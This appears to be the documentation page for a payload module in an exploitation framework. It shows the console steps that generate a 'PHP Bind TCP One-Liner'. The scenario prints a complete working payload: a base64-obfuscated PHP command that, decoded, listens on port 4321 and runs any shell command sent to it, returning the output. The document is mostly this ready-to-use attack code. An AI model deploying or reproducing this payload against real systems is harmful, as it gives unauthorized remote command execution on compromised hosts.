 ## Description

Module generates payload that creates interactive tcp bind shell by using php one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/php_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates php tcp bind shell payload

## Scenarios

```
rsf > use payloads/cmd/php_bind_tcp
rsf (PHP Bind TCP One-Liner) > set rport 4321
[+] rport => 4321
rsf (PHP Bind TCP One-Liner) > run
[*] Running module...
[*] Generating payload
php -r "eval(base64_decode('JHM9c29ja2V0X2NyZWF0ZShBRl9JTkVULFNPQ0tfU1RSRUFNLFNPTF9UQ1ApO3NvY2tldF9iaW5kKCRzLCIwLjAuMC4wIiw0MzIxKTtzb2NrZXRfbGlzdGVuKCRzLDEpOyRjbD1zb2NrZXRfYWNjZXB0KCRzKTt3aGlsZSgxKXtpZighc29ja2V0X3dyaXRlKCRjbCwiJCAiLDIpKWV4aXQ7JGluPXNvY2tldF9yZWFkKCRjbCwxMDApOyRjbWQ9cG9wZW4oIiRpbiIsInIiKTt3aGlsZSghZmVvZigkY21kKSl7JG09ZmdldGMoJGNtZCk7c29ja2V0X3dyaXRlKCRjbCwkbSxzdHJsZW4oJG0pKTt9fQ=='));"
```

